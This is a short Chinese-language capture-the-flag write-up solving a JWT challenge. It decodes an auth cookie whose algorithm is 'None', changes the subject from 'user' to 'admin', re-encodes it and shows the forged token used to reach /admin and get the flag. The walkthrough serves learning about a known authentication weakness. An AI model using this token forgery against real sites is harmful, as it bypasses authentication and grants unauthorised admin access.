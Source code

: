 # 一个简单的无加密题目

首先打开题目,查看源码，接下来访问/admin被跳转回主页啥也没有发生

```
where is flag?
<!-- /admin -->
```

当然知道这个板块是JWT，自然而然我们看一眼Cookie，发现名为auth的一个cookie为

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3sic3ViIjoidXNlciJ9XQ
```

通过base64解密或者去jwt.io解码也行，得到结果

```
{"alg":"None","typ":"jwt"}[{"sub":"user"}]
```

所以我们尝试把sub对应的键值修改

```
{"alg":"None","typ":"jwt"}[{"sub":"admin"}]
```

把前面部分和后面部分分别base64-encode

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0
```

后面

```
W3sic3ViIjoiYWRtaW4ifV0=
```

把这两部分用点(.)拼接两部分并去掉等于号

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3sic3ViIjoiYWRtaW4ifV0
```

此时拿着这一串cookie去替换掉原来的值，之后访问`/admin`即可获取flag

